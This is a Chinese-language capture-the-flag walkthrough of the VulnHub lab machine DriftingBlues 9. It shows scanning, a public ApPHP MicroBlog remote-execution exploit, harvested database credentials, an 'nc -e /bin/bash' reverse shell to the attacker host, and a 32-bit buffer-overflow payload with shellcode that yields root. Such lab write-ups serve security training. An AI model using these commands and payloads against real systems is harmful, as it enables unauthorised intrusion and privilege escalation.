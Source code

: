 [Site Unreachable](https://grumpygeekwrites.wordpress.com/2021/05/12/driftingblues-9/)

|   |   |   |
|---|---|---|
|driftingblues9|easy|aPphp GETSHELL、searchsploit使用、凭据收集、gdb使用、<br><br>缓冲区溢出漏洞（难）、pattern_create.rb、pattern_offset.rb 使用|

# 主机发现

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```
# 服务探测

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.139  

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))

111/tcp   open  rpcbind 2-4 (RPC #100000)
```
# 目录扫描
```c
http://192.168.44.139/README.txt

// ApPHP MicroBlog Free
// Version: 1.0.1
```

# 漏洞扫描
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit apphp                      
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabi | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Exe | php/webapps/33070.py




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit -m php/webapps/33030.txt  
  Exploit: ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/33030
     Path: /usr/share/exploitdb/exploits/php/webapps/33030.txt
    Codes: OSVDB-106352, OSVDB-106351
 Verified: True
File Type: ASCII text
Copied to: /home/kali/桌面/OSCP/33030.txt




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python2 33070.py http://192.168.44.139/
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
        PHP Version 5.6.40-0+deb8u12
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686
        Loaded Configuration File   /etc/php5/apache2/php.ini
        Apache Version   Apache/2.4.10 (Debian)
        User/Group   www-data(33)/33
        Server Root   /etc/apache2
        DOCUMENT_ROOT   /var/www/html
        PHP Version   5.6.40-0+deb8u12
        allow_url_fopen  On  On
        allow_url_include  Off  Off
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
        open_basedir   no value    no value
        System V Message based IPC   Wez Furlong
        System V Semaphores   Tom May
        System V Shared Memory   Christian Cartus

[*] Fetching include/base.inc.php
<?php
                        // DATABASE CONNECTION INFORMATION
                        define('DATABASE_HOST', 'localhost');           // Database host
                        define('DATABASE_NAME', 'microblog');           // Name of the database to be used
                        define('DATABASE_USERNAME', 'clapton'); // User name for access to database
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key
                        define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database
                        ?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

经过一番排查，我们发现用户clapton的密码被重复使用su一下

# 提权
反弹shell
```c
> nc -e /bin/bash 192.168.44.128 9001

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001

script /dev/null -c bash

su clapton //yaraklitepe
```

```c
clapton@debian:~$ cat note.txt  
cat note.txt
buffer overflow is the way. ( ° ʖ °)

if you're new on 32bit bof then check these:
翻译
缓冲区溢出就是这样。

如果您是 32 位的新手，请检查以下内容：
https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html
https://samsclass.info/127/proj/lbuf1.htm
  
  
clapton@debian:~$ cat user.txt
cat user.txt
F569AA95FAFF65E7A290AB9ED031E04F
```
上面已经提示了有缓冲区溢出漏洞还给出了教程链接，来学习学习
首先我们先下载靶机里面的input 文件
# PWN
由于此靶机上启用了**ASLR**，为了进行漏洞利用开发，我将此输入二进制文件复制到我的 Kali 中。
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat /proc/sys/kernel/randomize_va_space 
2
```
我必须先禁用 ASLR，然后在 gdb 中加载二进制文件。

```c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gdb -q input
```

生成字符
```c
┌──(kali㉿kali)-[~]
└─$ msf-pattern_create -l 300

┌──(kali㉿kali)-[~]
└─$ cd /usr/share/metasploit-framework/tools/exploit 
                                                                    
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_create.rb -l 2000
```
gdb调试，得到可以看到在 0x41376641 处得到了分段错误。
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) r    xxxxxxxxxxxxxx好多字符

Program received signal SIGSEGV, Segmentation fault.
0x41376641 in ?? ()
```
现在，我们需要用它来查找偏移量。
接着我们使用 patter_offset.rb 来查找我们可以覆盖 EIP 的字节数。执行后可以看到171字节后可以覆盖EIP。
```c
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_offset.rb -l 200 -q 0x41376641
[*] Exact match at offset 171

┌──(kali㉿kali)-[~]
└─$ msf-pattern_offset -l 200 -q 0x41376641
[*] Exact match at offset 171

```

Leave等价于：

movl %ebp %esp

popl %ebp

我们在 171 处得到了精确匹配。现在，我们可以使用 python 命令简单地创建字符串。例如，输入包含具有 171 个 A、4 个 B 和 500 个 nop 的简单输入。
我们可以使用 gdb 中的参数来进行测试
```c
./input $(python2 -c 'print "A" * 171 + "B" * 4 + "\x90" * 500')
```

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) run $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
Starting program: /home/kali/桌面/OSCP/input $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/s $esp
0xffffccd0:     '\220' <repeats 200 times>...
(gdb) 
```
之后，我检查了 esp 寄存器，并由于小端字节序而用相反顺序的esp地址(由于此时esp地址存储的是下一跳地址，所以还有一种方法二，这个地址话可以填成jmp esp指令的地址（[VulnHub-driftingblues:9\_driftingblues9-CSDN博客](https://blog.csdn.net/qq_32261191/article/details/117908644)）)替换了 4 个 B。之后，我在 nop sled 之后添加了 shell。我的最终输入如下：

```c
run $(python2 -c 'print "A" * 171 + "\xd0\xcc\xff\xff" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')

```
我也在目标机器上重复了相同的过程。但是，目标上的 ASLR 已启用，如果没有 root 权限，我们无法禁用它。因此，我们必须多次迭代相同的代码行。
我替换了之前有效负载中的地址并运行了 for 循环
经过两次不同的尝试，我得到了 root shell 和 flag